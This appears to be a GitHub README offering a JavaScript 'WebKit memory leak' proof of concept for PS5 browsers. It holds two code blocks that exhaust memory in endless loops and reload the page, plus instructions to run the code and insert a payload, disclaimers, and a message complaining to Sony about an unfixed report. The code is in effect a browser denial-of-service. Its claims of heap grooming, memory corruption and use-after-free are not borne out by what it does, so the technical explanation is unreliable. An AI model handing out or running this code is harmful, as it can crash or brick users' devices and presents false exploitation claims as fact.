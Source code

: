 https://debvt.github.io/Wm/


**Author:https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09**
I'm self taught I don't know any one in the community if you want to use this use it but credit me.
# WebKit Memory Leak PoC

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I have been working on. The current iteration works but still needs to be fully exploited. Below is the JavaScript code that shows how it operates, along with explanations of each step.

## How it Works
The code below follows five key steps:

1. **Heap Initialization**: Allocates memory in a controlled manner.
2. **Heap Grooming**: Manipulates memory to create gaps for the exploit.
3. **Memory Exhaustion**: Continuously allocates and clears memory to exhaust resources.
4. **Payload Execution**: Executes the payload to perform memory corruption.
5. **Exploit Execution**: Runs the steps in sequence to trigger the memory exhaustion.

## Code
```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    //alert("Int heap");
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    //alert("groom heap");
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap
    
    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

performExploit();
```
##**Instructions**

1. Copy the above code and run it in a Exploitable PS5(Works Untill guess 9.60?) this might not be useful in ps4


2. Be mindful that this is a PoC and should be used for educational purposes only.


3. Further testing is required to fully understand this vulnerability.

4.Place Your Payload in the payload function

Disclaimer

This PoC is for educational purposes only. The author is not responsible for any misuse of this code.
##**IM NOT LIABLE TO ANY DAMAGES CAUSED BY THIS POC OR ANY OTHER USE OF IT THIS CAN BRICK AND MIGHT BRICK YOUR SYSTEM IF LEFT UNEDITED **


**A Message to Sony**


Sony I have reported this and got dismmised and I have provided enough proof plus with that unreleased PoC it's not my fault that even after 6months you didn't fix it I have gave you more then enough to fix this is to hopefully encourage you to fix it 

## heap memory exploit code
```javascript
function memmexh() {
        while (true){
        // Simulate allocation of an object
        let obj = { data: "important data" };

        // Reference to the object
        let ref = obj;

        // Simulate freeing the object
        obj = null;

        
    }
    }
function ComplexOverflow() {
    let largeString = "A".repeat(1000000); // 1 million A's
    let bufferArray = [];
    let nestedArray = [];
    let obj = {};
    let counter = 0;
    let counterr = 0;

    while (true) {

        
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) {
            largeString = "A".repeat(1000000);
        }

        // Array buffer allocation
        bufferArray.push(new ArrayBuffer(1000000));
        if (bufferArray.length > 1000) {
            bufferArray = [];
        }

        // Nested arrays
        nestedArray.push([]);
        if (nestedArray.length > 1000) {
            nestedArray = [];
        }

 
        counterr++;
        if (counterr >= 100) {
            location.reload();
        }
        // Object property expansion
        obj[counter] = "A".repeat(1000);
        counter++;
        if (counter > 10000000) {
            obj = {};
            counter = 0;
        }
    }
}










let MTestClassesArray = [];

class MTestClass {
    constructor() {}
}

const create_1000_objects = () => {
    let counter = 0;
    memmexh()
    while (true) {
        // Simulate allocation of an object
        let obj = { data: "important data" };

        // Reference to the object
        let ref = obj;

        console.log("Before freeing:", ref.data); // Output: important data

        // Simulate freeing the object
        obj = null;

        try {
            // Attempt to use the reference after the object is "freed"
            console.log("After freeing:", ref.data); // This should fail in a true use-after-free
        } catch (e) {
            console.log("Error:", e.message); // Catch any errors
        }
    
        counter++;
        if (counter >= 500) {
            location.reload();
        }
        for (let i = 0; i < 1000; i++) {
            MTestClassesArray.push(new MTestClass());
        }
        const text = `Total ${MTestClassesArray.length} MTestClass objects created`;
        document.getElementById('divMsg').innerHTML = text;
    }
}
```
